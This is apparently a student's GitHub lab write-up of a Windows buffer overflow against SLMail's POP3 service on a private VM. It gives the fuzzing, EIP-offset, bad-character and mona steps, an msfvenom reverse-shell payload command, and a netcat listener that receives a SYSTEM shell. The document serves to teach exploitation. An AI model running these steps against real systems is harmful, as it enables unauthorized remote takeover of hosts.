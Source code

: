 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real-time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Opened BOF machine, accessed command prompt as admin, ran **“slmgr /rearm”** and **“ipconfig”**. Identified IP as **“10.0.2.10”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF1.png" alt="">
</p>

- Installed **“12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe”**, rebooted VM, and created a shortcut for **“SLmail.cpl”**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF2.png" alt="">
</p>

- Launched **“SLmail.cpl”** & **“Immunity debugger”** as admin.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF3.png" alt="">
</p>

- In “Immunity debugger”, attached the **“SLmail.exe”** file and ensure its active state.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF4-1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF4-2.png" alt="">
</p>

- On my Kali machine, downloaded the **“fuzzerScript.py”** to the BOF folder on the desktop.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF5.png" alt="">
</p>

- In the same directory, created and edited **“fuzzy.py”**, updating the target IP address on line 13.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF6.png" alt="">
</p>

- Performed an nmap scan on the target VM. Identified Port 100 open with “pop3” protocol.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF7.png" alt="">
</p>

- Updated the **“fuzzy.py”** with the target IP and port.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF8.png" alt="">
</p>

- In the BOF directory, executed the script using “python2 fuzzy.py”.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF9.png" alt="">
</p>

- In Immunity debugger, noticed EIP showing **“41414141”**.

<p align="center">
  <img src="" alt="">
</p>

- Generated an MSF pattern using **“msf-pattern_create -l 3000”**, producing a unique 3000-byte pattern to identify program control flow.

<p align="center">
  <img src="" alt="">
</p>

- Copied this pattern into the **“fuzzy.py”** script buffer, removing the unnecessary counter and loop.

<p align="center">
  <img src="" alt="">
</p>

- Reset both SLmail.cpl and Immunity debugger. Ensured SLmail was active in Immunity, then ran **“python2 fuzzy.py”** from Kali.

<p align="center">
  <img src="" alt="">
</p>

- Observed EIP in Immunity debugger updated to **“39694438”**.

<p align="center">
  <img src="" alt="">
</p>

- Determined memory control location using **“msf-pattern_offset -l 3000 -q 39694438”**, identifying offset **“2606”**.

<p align="center">
  <img src="" alt="">
</p>

- Validated this by modifying **“fuzzy.py”** buffer to **“A * 2606 + B * 4”**.

<p align="center">
  <img src="" alt="">
</p>

- Reset SLmail.cpl and Immunity debugger, then executed **“python2 fuzzy.py”**. Noticed EIP as **“42424242”** and EBP as **“41414141”** in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>

- Updated **“fuzzy.py”** to include bad characters, and modified the buffer accordingly.

<p align="center">
  <img src="" alt="">
</p>

- Restarted slmail.clp and Immunity debugger. Ran **“python fuzzy.py”** from Kali, noting an output of 2865 bytes.

<p align="center">
  <img src="" alt="">
</p>

- Followed ESP in Immunity debugger's dump, identifying sequences to be removed from **“fuzzy.py”**.

<p align="center">
  <img src="" alt="">
</p>

- Repeated the process with updated **“fuzzy.py”**, observing a byte decrease in output.

<p align="center">
  <img src="" alt="">
</p>

- Made another update to **“fuzzy.py”**, removing the identified bad character.

<p align="center">
  <img src="" alt="">
</p>

- Reset tools, searched for mona modules in Immunity debugger, then searched for the appropriate DLL.

<p align="center">
  <img src="" alt="">
</p>

- Crafted shellcode with **“msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"”**.

<p align="center">
  <img src="" alt="">
</p>

- Updated “fuzzy.py” with the crafted shell code.

<p align="center">
  <img src="" alt="">
</p>

- Set up a listener on Kali with **“nc -lvp 4444”**.



- Restarted SLmail, ran **“fuzzy.py”**. The netcat listener received the code, granting system access. Confirmed with **“whoami”** command showing “nt authority\system”.
